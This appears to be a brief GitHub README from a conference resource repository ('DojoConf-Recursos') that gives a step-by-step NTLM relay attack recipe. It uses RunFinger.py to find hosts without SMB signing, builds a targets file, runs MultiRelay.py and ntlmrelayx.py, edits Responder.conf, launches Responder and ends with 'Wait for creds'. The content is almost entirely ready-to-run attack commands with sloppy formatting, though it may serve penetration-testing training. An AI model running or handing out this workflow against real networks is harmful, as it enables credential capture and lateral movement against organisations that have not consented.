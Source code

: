 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt**
 ```   
 ```
 python MultiRelay.py -t <target_machine_IP> -u ALL
 ntlmrelayx.py -tf targets.txt --smb2support**
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rdw
```
5. Wait for creds

